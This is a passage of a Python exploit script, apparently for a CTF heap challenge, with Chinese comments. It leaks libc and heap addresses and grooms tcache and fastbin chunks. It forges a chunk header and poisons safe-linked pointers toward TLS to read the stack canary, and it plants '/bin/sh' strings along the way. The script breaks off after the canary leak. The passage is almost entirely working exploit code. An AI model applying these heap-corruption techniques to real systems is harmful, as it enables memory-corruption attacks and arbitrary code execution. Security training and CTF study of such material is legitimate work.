 ```python
res = view(7)
# data = view(5)
base_libc = u64(res[8:16]) - 2207216
print("base_libc",hex(base_libc))
delete(9)
delete(10)
# 泄露heap
for i in range(7):
    add(i,128,b"a"*8)
add(7,128,b"a"*8)
add(8,0x38,b"a"*8)
add(9,128,b"a"*8)
add(10,0x38,b"a"*8)
for i in range(7):
    delete(i)
delete(7)
delete(8)
delete(9)
# print("base_libc",hex(base_libc))
for i in range(7):
    add(i,128,b"\x00")

# debug()
#  0x5633731e9da0
add(7,0x58,b"\x00")
res = view(7)
base_heap = u64(res[8:16])-7856

for i in range(719):
    add(15,128,b"a"*8)
#0x3b0
for i in range(12):
    add(i,0x68,b"a"*8)
for i in range(11):
    delete(i)
add(14,0x38,b"\x00")
add(14,128,b"\x00")
fd = 0x100
add(14,0x58,(b"a"*(0x40-0x10))+p64(0)+p64(0x91)+p64(0x100)+p64(1)+p64(base_heap+0xb20+0x10))
# index:10
# 构造fastbin
for i in range(9):
    add(i,0x68,b"a"*8)
for i in range(9):
    delete(i)
# 0x5600edb1db20-0x5600edb1d000
delete(10)
for i in range(7):
    add(14,0x68,b"/bin/sh\x00")

tls = base_libc -10432
xor = ((base_heap)>>12)
add(14,0x68,p64(tls^xor))
add(14,0x68,p64(tls^xor))
add(14,0x68,p64(tls^xor))
add(14,0x68,p64(base_libc-0x28c0)+p64(base_libc-0x1ea0))
res = view(14)
# 0x7fe867b61160
data = getData(res)
# print(data)
for i in data:
    print(hex(i))
canary = data[5]
```